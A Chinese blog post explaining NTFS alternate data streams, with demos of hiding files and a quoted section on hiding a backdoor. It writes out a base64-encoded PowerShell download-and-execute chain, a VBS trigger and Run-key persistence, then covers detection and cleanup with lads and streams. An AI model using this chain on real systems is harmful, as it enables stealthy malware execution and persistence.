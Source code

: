 ```yaml
---
title:  脑洞大开 - NTFS交换数据流ADS
tags:
  - NTFS
  - 脑洞
date: 2017/3/4
---
```


今天偶然间看到的，查了一下虽然不是什么新鲜的东西，但着实让我吃了一惊。

以下内容多数摘自网络。

## 什么是NTFS交换数据流（ADS）

NTFS交换数据流（alternate data streams，简称ADS）是NTFS磁盘格式的一个特性，在NTFS文件系统下，每个文件都可以存在多个数据流，就是说除了主文件流之外还可以有许多非主文件流寄宿在主文件流中。它使用资源派生来维持与文件相关的信息，虽然我们无法看到数据流文件，但是它却是真实存在于我们的系统中的。创建一个数据交换流文件的方法很简单，命令为"宿主文件:准备与宿主文件关联的数据流文件"。

**以下一段摘自FreeBuf：**

举个例子，我现在有一个文本文件，名称为test.txt，文本内容为”Hello, world!”。其MFT记录结构如图：

![](NTFS_ADS_501120d30a03d1e79c32bb4ef3af93cc.png)

\$FILE_NAME属性包含了该文件名test.txt。 \$DATA属性则包含了内容 “Hello, world!”。这里说个题外话，由于该内容长度小于1kb，所以文件的内容就直接存储在MFT记录里面了（称为resident）。如果内容长度大于1kb，文件内容会被存储在别的地方 （称为non-resident），在这种情况下$DATA属性只包含其存储地址。这里“Hello, world!”很短，所以直接保存在了MFT记录里面。

很多人想当然的认为一个文件只能有一个\$DATA属性，这是错误的。在NTFS中，一个文件可以有多个\$DATA属性。比如我现在想给test.txt加入一个名为ThisIsAnADS的$DATA属性：

```bash
echo Hello, freebuf! > test.txt:ThisIsAnADS
```

那么，该文件的MFT记录就变成了下图所示:

![](NTFS_ADS_633903e3c0be74d2d9769d7c69a00d9b.png)

你可能发现了这两个\$DATA属性还是略有不同的，第一个没有名称，而第二个有名称（ThisIsAnADS）！通常人们称第一个为主数据流（primary data stream ）。主数据流在文件创建的同时就被创建了，并且默认没有名称，所以也叫做未名数据流 （unnamed data stream）。第二个是我们后来创建的，并且赋予了名称（ThisIsAnADS）。这个就是供选数据流 （alternate data stream，ADS）。绝大多数用户只会和主数据流打交道，从某种意义上来说，ADS对用户是隐藏的。用常规的dir命令和windows文件管理器都没法发现ADS。而当我们查看文件内容的时候也仅仅显示主数据流的内容。


## NTFS交换数据流隐藏文件实例

### 隐藏文本

在命令行下，我们敲：
```bash
echo 666666>>suzhu.txt:stream.txt
```
这里的`suzhu.txt`可以是目前不存在的文件，也可以是现有的文件。如果我们敲命令之前没有`suzhu.txt`，那么我们的文件夹下就多出了一个叫`suzhu.txt`的空白文件。

查看我们的写入的文本也简单，敲命令：
```bash
notepad suzhu.txt:stream.txt
```

删除文件也简单，直接把`suzhu.txt`删掉，寄生的`stream.txt`也被删掉了。

此处注意，如果我们当时创建流文件时敲的是：
```bash
echo 666666>>:stream.txt
```

那当我们需要删除这个文件的时候只能把这整个文件夹删除。

**P.S.**另外，网上说此时我们可以敲`notepad YOUR_FOLDER\:stream.txt`打开这个流文件，但我没有成功。

### 隐藏文件

和上面差不多，我们以一张20MB，名字为aaa.jpg的图片为例。

我们敲命令：
```bash
type aaa.jpg>>suzhu.txt:aaa.jpg
```
删掉原来的`aaa.jpg`，我们多了一个叫`suzhu.txt`的空文件。右键查看这个空文件的属性，发现文件的大小为0字节，但占用空间为20MB，说明交换数据流还是会占空间的。

我们用画板打开这张图片：
```bash
mspaint suzhu.txt:aaa.jpg
```

删除文件方法同上。

### 隐藏后门（此段来自FreeBuf）

既然ADS不被大多数用户所知，而且常规的系统命令和文件管理器都检查不到其存在，那么我们可以把后门放在ADS以起到隐藏的目的。让我们先试着把netcat的二进制内容存到test.txt的一个叫nc.exe的ADS里面：
```bash
type nc.exe > test.txt:nc.exe
```
可以写入，没有问题。试着执行之:
```bash
c:\test>start test.txt:nc.exe
Access is denied.
```
但是执行不成功。。。因为从windows xp以后微软就禁止用户从ADS里执行程序了。写入，读出操作都可以，但是不允许执行。

换一个思路，既然允许写和读，那么我们可以在ADS里面写入脚本，然后用脚本解释器(Wscript.exe)来运行该脚本。Wscript.exe默认支持js, vbs等，但是我更偏爱powershell的简单高效。所以准备在一个文件中写入2个ADS，一个包含powershell脚本后门，用于从网上下载和执行恶意脚本。一个包含VBS脚本，用于触发powershell脚本。具体设计如下图，包括3部分:

![](NTFS_ADS_d056145f950b2bcbe27985095c0306f0.png)

1. 恶意脚本：一个提供真正的恶意功能的powershell脚本，比如反弹cmd shell等等，具体如何用powershell实现远控功能，请参照https://github.com/mattifestation/PowerSploit。 这里为了演示的目的，我们的”恶意脚本”只会弹出一个对话框，显示”Infected”。该文件名为malware.ps1，存放于 http://127.0.0.1:8123/malware.ps1

2. 下载器：该下载器也是一段powershell脚本，用来下载并执行恶意脚本。其实就一句话 "IEX ((New-Object Net.WebClient).DownloadString(&#039;http://127.0.0.1:8123/malware.ps1&#039;));" 我们把它base64编码[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX ((New-Object Net.WebClient).DownloadString(&#039;http://127.0.0.1:8123/malware.ps1&#039;));"))得到base64编码结果。然后把 powershell.exe -ep Bypass -noexit -enc [base64编码结果] 写入test.txt:1

3. 触发器：该触发器是一段VB脚本，会开一个cmd运行test.txt:1 里的脚本。由于我们要用wscript.exe 来运行这个ADS, 而wscript.exe会检查脚本文件的后缀名，所以这个ADS的命名必须以.vbs结尾。 具体内容为 Dim objShell:Set objShell = WScript.CreateObject("WScript.Shell"):command = "cmd /C for /f ""delims=,"" %i in (C:\\test\\test.txt:1) do %i":objShell.Run command, 0:Set objShell = Nothing，将其写入test.txt:2.vbs

![](NTFS_ADS_2219a33b8f21a9ba436ca49b23674e06.png)

用wscript.exe运行一下，成功！进程管理器显示该进程名为powershell.exe

![](NTFS_ADS_f1ccdf856183594d98163a86f6e0d312.png)

当然，还可以把wscript.exe test.txt:2.vbs 放在注册表与自动启动相关的键值里，比如HKCU\Software\Microsoft\Windows\CurrentVersion\Run 等，以实现开机自启动。

## 如何检测和清除NTFS-ADS隐藏的文件

简而言之，用软件。

下载: https://pan.baidu.com/s/1qYnTbIW 密码: v2bq

lads.exe:
```
/*
 * 将这lads.exe这个程序放置需要检测的分区根目录中，
 * 不添加任何参数直接运行，就是检测根目录中所有文件，
 * 如果使用"lads.exe test /S"，就是递归检测test以及test下所子目录。
 * 下面这条命令是检测根目录以及所有子目录。
 */
E:\>lads.exe /S
 
Scanning directory E:\ with subdirectories
 
      size  ADS in file
----------  ---------------------------------
        12  E:\:123.txt
    346112  E:\:aaa.exe
    144588  E:\:bbb.jpg
         7  E:\123.txt:222.txt
    346112  E:\123.txt:aaa.exe
     72294  E:\123.txt:bbb.jpg
     72294  E:\aaa.exe:bbb.jpg
        12  E:\test\:123.txt
     72294  E:\test\:bbb.jpg
 
   1053737 bytes in 9 ADS listed
 
/*可以看到我们实验中添加的所有交换数据流一览无遗*/
```

使用streams.exe这个程序来清除这些交换数据流，根据上面检测的输出信息，我将streams.exe放在E盘的根目录：

```cpp
/*
 * 首先尝试清除一下E盘根目录上面寄生的交换数据流，
 * -d后面接目录。
 */
E:\>streams.exe -d E:\
 
E:\:
   Deleted :123.txt:$DATA
/*
 * 这里出现了一个错误，因为这个:aaa.exe现在正在运行
 * 对于这种情况，需要先结束掉这个:aaa.exe进程才能清除。
 */
   Error deleting :aaa.exe:$DATA:
?????
   Deleted :bbb.jpg:$DATA
 
/*可以添加-s参数来一次性递归清除E盘下所有寄生的交换数据流文件（慎用，尤其是对系统盘一定不要随便使用递归清除，系统本身的一些数据流也会被一起清除掉）*/
E:\>streams.exe -s -d E:\
 
E:\123.txt:
   Deleted :222.txt:$DATA
   Deleted :aaa.exe:$DATA
   Deleted :bbb.jpg:$DATA
E:\aaa.exe:
   Deleted :bbb.jpg:$DATA
E:\test:
   Deleted :123.txt:$DATA
   Deleted :bbb.jpg:$DATA

```